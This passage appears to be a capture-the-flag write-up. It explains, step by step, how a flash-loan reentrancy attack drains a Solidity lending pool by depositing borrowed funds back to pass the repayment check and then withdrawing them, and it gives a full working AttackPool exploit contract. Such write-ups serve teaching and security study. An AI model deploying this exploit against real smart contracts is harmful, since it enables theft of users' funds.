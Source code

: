 1. We call attack from the AttackPool contract first
2. `attack()` calls the `flashLoan` to take out the entire pool balance as a loan
3. `flashLoan()` function sends the amount to the `execute()` in the attack contract
4. Which gives the attack contract the control of the transaction flow, and `execute()` immediately calls `deposit()` of the pool contract and deposits the entire amount.
5. Control goes back to the pool contract’s `deposit()` function and it updates the contract balance and map the amount to the attacking contract address.
6. The transaction call goes back to the `flashLoan` and it checks that the current contract balance is similar as `balanceBefore` and it decides that the loan has been repaid by the borrower.
7. Now the control of the transaction agains comes back to the attack contract and it withdraws the entire balance of the pool contract and transfers it to the attacker.

This is how the `attack()` should look like -

```solidity
function attack() external {
    victim.flashLoan(address(victim).balance);
    victim.withdraw();
    (bool success,) = attacker.call{value: address(this).balance}("");
}
```

The overall contract looks like this -

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPool {
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
}

contract AttackPool {
    IPool immutable victim;
    address immutable attacker;

    constructor(address _victim, address _attacker) {
        victim = IPool(_victim);
        attacker = _attacker;
    }

    function attack() external {
        victim.flashLoan(address(victim).balance);
        victim.withdraw();
        (bool success,) = attacker.call{value: address(this).balance}("");
    }

    function execute() external payable {
        require(tx.origin == attacker);
        require(msg.sender == address(victim));

        victim.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```
